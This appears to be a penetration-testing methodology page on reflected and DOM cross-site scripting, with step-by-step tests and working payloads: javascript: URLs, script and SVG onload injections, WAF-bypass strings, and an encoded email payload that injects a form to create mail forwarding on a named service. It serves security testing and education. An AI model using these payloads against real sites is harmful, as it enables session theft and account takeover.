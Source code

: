 # Reflected Cross Site Scripting

## Check List

## Methodology

### Black Box

#### XSS Reflected

{% stepper %}
{% step %}
Log in to any platform that allows creating or editing text-based pages (such as a Wiki or documentation system)
{% endstep %}

{% step %}
Create a new page
{% endstep %}

{% step %}
In the field for the page identifier or slug, enter `javascript:`
{% endstep %}

{% step %}
Configure the page as follows

Title: `javascript:`

Format: Markdown

Content: `[XSS](.alert(1);)`
{% endstep %}

{% step %}
Save or publish the page
{% endstep %}

{% step %}
After the page is created, click the link labeled “XSS” in the page content
{% endstep %}

{% step %}
If the system is vulnerable, the JavaScript code will execute (e.g., an `alert(1)` will appear)
{% endstep %}
{% endstepper %}

***

#### XSS IN Email

{% stepper %}
{% step %}
Create a new text file (e.g. `email.txt`)
{% endstep %}

{% step %}
Put the following exact contents into the file (including headers and `Content-type: text/html`)

```http
From: jouko@klikki.fi
To: jouko@hey.com
Subject: HackerOne test
MIME-Version: 1.0
Content-type: text/html

<style>
url(cid://\00003c\000027message-content\00003e\00003ctemplate\00003e\00003cstyle\00003exxx);
url(cid://\00003c/style\00003e\00003c/template\00003e\00003c/message-content\00003e\00003cform\000020action=/my/accounts/266986/forwardings/outbounds\000020data-controller=beacon\00003e\00003cinput\000020type=text\000020name=contact_outbound_forwarding[to_email_address]\000020value=joukop@gmail.com\00003e\00003c/form\00003exxx);
</style>
```
{% endstep %}

{% step %}
Send the email using `sendmail` on Linux as an example

```bash
/usr/sbin/sendmail -t < email.txt
```

(or use any other tool capable of sending raw MIME/HTML emails)
{% endstep %}

{% step %}
Open the recipient’s HEY account and load the sent email (refresh the inbox/viewer if needed)
{% endstep %}

{% step %}
Inspect the rendered HTML to find injected tags or form elements (e.g. injected `<form ...>` or `<iframe ...>`)
{% endstep %}

{% step %}
Observe any automatic behaviors triggered by the injected HTML (such as POST requests to create forwarding or a full-window iframe)
{% endstep %}

{% step %}
Repeat with the alternative payload examples from the report (iframe-based spoof or `<script src=...>` + hcaptcha payload) to verify other exploitation vectors
{% endstep %}
{% endstepper %}

***

#### Reflected XSS In Marketing Reports Page

{% stepper %}
{% step %}
Log in to the store's website and complete the authentication process
{% endstep %}

{% step %}
Then go to the report section in your profile
{% endstep %}

{% step %}
When you enter the page, check the URL and find parameters like `return_page_pathname=` (may be different in each site)
{% endstep %}

{% step %}
Inject the parameter using the following payload and check if the code is executed or not

```
javascript:alert('XSS')
```
{% endstep %}

{% step %}
If it is implemented, we hit a vulnerability
{% endstep %}
{% endstepper %}

***

#### Reflected cross site scripting (XSS) attacks

{% stepper %}
{% step %}
Enter a site and complete the authentication process
{% endstep %}

{% step %}
In the authentication process, make an error on one of the parameters so that the authentication process fails
{% endstep %}

{% step %}
If you encounter errmssg parameters in subsequent requests, inject xss-related payloads in these parameters
{% endstep %}

{% step %}
For example, like this request below

```
errmsg = [https://102.176.160.119:10443/remote/error?errmsg=ABABAB--%3E%3Cscript%3Ealert(1337)%3C/script%3E]
```
{% endstep %}
{% endstepper %}

***

#### DOM XSS

{% stepper %}
{% step %}
Bring up the Burp tool and make a request to the main page of the site
{% endstep %}

{% step %}
In the Response section, click on the search section and search for the word `window.location.hash` and check if it exists or not
{% endstep %}

{% step %}
If there is, inject the payload as shown below and see if it is reflected or not

```
https://www.example.com/#<img src=x onerror=alert('XSS')>
```
{% endstep %}
{% endstepper %}

***

#### DOMXSS in redirect param

{% stepper %}
{% step %}
Logout website
{% endstep %}

{% step %}
Get the request using Burp and check the request
{% endstep %}

{% step %}
In the requests review, if you find a request like the one below, inject the payload

```
https://subdomain.example.net/?redirect=javascript:prompt(document.domain)%2f%2f 
```
{% endstep %}

{% step %}
Log in through email
{% endstep %}
{% endstepper %}

***

#### XSS Reflected in Redirect\_url

{% stepper %}
{% step %}
Log in to the site and complete the registration process
{% endstep %}

{% step %}
Trace the registration process using Burp and inspect the parameters
{% endstep %}

{% step %}
If you see a parameter called redirect\_url, inject the following payload as shown below:

```http
https://example.net/resign_request/success?next_url=javascript%3Aalert%2F**%2F(document.domain)
```
{% endstep %}

{% step %}
If the code is reflected, the vulnerability has occurred
{% endstep %}
{% endstepper %}

***

#### Payload For WAF Bypass

{% stepper %}
{% step %}
```http
https://www.example.com.br/testing%2522%80%2520accesskey='x'%2520onclick='confirm%601%60'
```
{% endstep %}

{% step %}
```http
https://www.example.com.br/testing%2522%FF%2520accesskey='x'%2520onclick='confirm%601%60'
```
{% endstep %}

{% step %}
```http
https://www.starbucks.com.br/testing%80%2522%2520accesskey='x'%2520onclick='confirm%601%60'
```
{% endstep %}
{% endstepper %}

***

#### Location Information Parameter&#x20;

{% stepper %}
{% step %}
Log in to your account and profile on the target site
{% endstep %}

{% step %}
Go to the general section of your account and enter the street address, city, and the following payload

```javascript
/"><!--><svg/onload=alert(document.domain)>)
```
{% endstep %}

{% step %}
After injection, save and log in to see your location information and live view
{% endstep %}

{% step %}
For example, something like the path below (keep in mind that this path can be different for each site)

```http
https://example.com/user/dashboards/live
```
{% endstep %}
{% endstepper %}

***

### White Box

## Cheat Sheet
